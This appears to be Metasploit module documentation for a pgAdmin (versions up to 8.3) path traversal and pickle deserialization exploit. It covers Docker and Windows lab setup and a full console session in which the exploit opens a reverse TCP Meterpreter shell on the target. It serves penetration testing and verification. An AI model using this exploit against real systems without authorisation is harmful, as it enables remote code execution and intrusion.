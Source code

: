 *## Vulnerable Application
pgAdmin versions <= 8.3 have a path traversal vulnerability within their session management logic that can allow a
pickled file to be loaded from an arbitrary location. This can be used to load a malicious, serialized Python object to
execute code within the context of the target application.

This exploit supports two techniques by which the payload can be loaded, depending on whether or not credentials are
specified. If valid credentials are provided, Metasploit will login to pgAdmin and upload a payload object using
pgAdmin's file management plugin. Once uploaded, this payload is executed via the path traversal before being deleted
using the file management plugin. This technique works for both Linux and Windows targets. If no credentials are
provided, Metasploit will start an SMB server and attempt to trigger loading the payload via a UNC path. This technique
only works for Windows targets. For Windows 10 v1709 (Redstone 3) and later, it also requires that insecure outbound
guest access be enabled.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/multi/http/pgadmin_session_deserialization`
1. Set the `RHOST`, `PAYLOAD`, and optionally the `USERNAME` and `PASSWORD` options
1. Do: `run`

### Installation (Docker on Linux)

A docker instance can be started using the following command. It'll start on port 8080 with an initial account for
`metasploit@gmail.com`. Additional accounts can be created through the web UI.

```
docker run -p 8080:80 \
    -e 'PGADMIN_DEFAULT_EMAIL=metasploit@gmail.com' \
    -e 'PGADMIN_DEFAULT_PASSWORD=Password1!' \
    -d dpage/pgadmin4:8.3
```

### Installation (Windows)

These steps are the bare minimum to get the application to run for testing and should not be use for a production setup.
For a production setup, a server like Apache should be setup to run pgAdmin through it's WSGI interface.

**The following paths are all relative to the default installation path `C:\Program Files\pgAdmin 4\web`**.

1. [Download][1] and install the Windows build
1. Copy the `config_distro.py` file to `config_local.py`
1. Edit `config_local.py` and set `SERVER_MODE` to `True`
1. Initialize the database: `..\python\python.exe setup.py setup-db`
1. Create an initial user account: `..\python\python.exe setup.py add-user --admin metasploit@gmail.com Password1!`
1. Run the application: `..\python\python.exe pgAdmin4.py`

## Scenarios
Specific demo of using the module that might be useful in a real world scenario.

### pgAdmin 8.3 on Docker

```
metasploit-framework (S:0 J:0) exploit(multi/http/pgadmin_session_deserialization) > set RHOSTS 192.168.250.134
RHOSTS => 192.168.250.134
metasploit-framework (S:0 J:0) exploit(multi/http/pgadmin_session_deserialization) > set RPORT 8080
RPORT => 8080
metasploit-framework (S:0 J:0) exploit(multi/http/pgadmin_session_deserialization) > set SSL false
[!] Changing the SSL option's value may require changing RPORT!
SSL => false
metasploit-framework (S:0 J:0) exploit(multi/http/pgadmin_session_deserialization) > set USERNAME user@gmail.com
USERNAME => user@gmail.com
metasploit-framework (S:0 J:0) exploit(multi/http/pgadmin_session_deserialization) > set PASSWORD Password1!
PASSWORD => Password1!
metasploit-framework (S:0 J:0) exploit(multi/http/pgadmin_session_deserialization) > set PAYLOAD python/meterpreter/reverse_tcp
PAYLOAD => python/meterpreter/reverse_tcp
metasploit-framework (S:0 J:0) exploit(multi/http/pgadmin_session_deserialization) > set LHOST 192.168.250.134
LHOST => 192.168.250.134
metasploit-framework (S:0 J:0) exploit(multi/http/pgadmin_session_deserialization) > run

[*] Started reverse TCP handler on 192.168.250.134:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. pgAdmin version 8.3.0 is affected
[*] Successfully authenticated to pgAdmin
[*] Serialized payload uploaded to: /var/lib/pgadmin/storage/zeroSteiner_gmail.com/reiciendis.pages
[*] Triggering deserialization for path: ../storage/zeroSteiner_gmail.com/reiciendis.pages
[*] Sending stage (24768 bytes) to 192.168.250.134
[*] Meterpreter session 1 opened (192.168.250.134:4444 -> 192.168.250.134:45930) at 2024-03-29 12:01:04 -0400

meterpreter > getuid
Server username: pgadmin
meterpreter > sysinfo
Computer     : 27b165126272
OS           : Linux 6.7.9-200.fc39.x86_64 #1 SMP PREEMPT_DYNAMIC Wed Mar  6 19:35:04 UTC 2024
Architecture : x64
Meterpreter  : python/linux
meterpreter > pwd
/pgadmin4
meterpreter > 
```

[1]: https://www.postgresql.org/ftp/pgadmin/pgadmin4/v8.3/windows/
